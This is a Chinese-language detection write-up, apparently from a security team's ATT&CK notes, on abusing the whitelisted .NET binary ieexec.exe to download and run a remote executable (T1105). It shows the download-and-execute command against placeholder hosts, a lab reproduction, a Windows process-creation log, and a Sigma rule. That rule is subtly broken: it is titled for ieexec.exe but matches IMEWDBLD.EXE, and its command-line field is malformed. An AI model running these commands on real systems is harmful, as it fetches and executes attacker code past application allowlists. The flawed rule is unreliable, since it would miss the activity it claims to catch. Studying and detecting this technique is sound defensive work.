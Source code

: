 # T1105-win-入口工具转移-ieexec.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。可以将IEExec.exe应用程序用作主机，以运行使用URL启动的其他托管应用程序。

**路径:**
```
-   C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
-   C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
```

从远程服务器下载并执行 bypass.exe。  

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

用例：从远程位置下载并运行攻击者代码  
所需权限：用户  
操作系统：Windows vista、Windows 7、Windows 8、Windows 8.1、Windows 10

## 检测日志

windows安全日志

## 测试复现

```bash
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Users\liyang>ieexec.exe
'ieexec.exe' 不是内部或外部命令，也不是可运行的程序
或批处理文件。

C:\Users\liyang>C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe http://XXXX/QQ.exe
```

在Windows10环境下直接执行ieexec.exe提示异常，需要指定具体路径后才可以正常执行该命令。可将文中的QQ.exe替换成bypass文件即可。
## 测试留痕
```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1a24

新进程名称: C:\Windows\Microsoft.NET\Framework\v2.0.50727\IEExec.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1410

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe  https://xxx/QQ.exe
```

## 检测方法/思路
### Sigma规则
```yml
title: ieexec.exe bypass
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://www.codercto.com/a/104908.html
- https://lolbas-project.github.io/lolbas/Binaries/Ieexec/

logsource:
product: windows
category: security
selection:
    NewProcessName: \IMEWDBLD.EXE
    CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

ieexec.exe

<https://lolbas-project.github.io/lolbas/Binaries/ieexec/>

远控免杀专题(46)-白名单IEexec.exe执行payload  
  
<https://www.codercto.com/a/104908.html>